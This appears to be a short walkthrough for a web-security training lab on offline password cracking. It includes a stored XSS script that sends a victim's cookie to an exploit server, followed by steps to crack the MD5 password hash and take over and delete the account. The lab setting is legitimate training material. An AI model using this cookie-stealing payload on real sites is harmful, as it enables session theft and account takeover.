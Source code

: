 # Offline password cracking
Solution:
- Login as `weiner:peter` with the `Stay logged in` functionality
- Notice that the cookie is base64 encode of `username:md5sum(password)`
- The comment section is vulnerable to XSS
- Insert an XSS payload in the comment that sends the cookie to the exploit server
```js
<script>
document.location = "exploit-server-id.web-security-academy.net/?c=" + document.cookie;
</script>
```
- Visit the access log on the exploit server
- Get  the cookie and crack the hash (you can use crackstation)
- Login as carlos and delete his account to solve the lab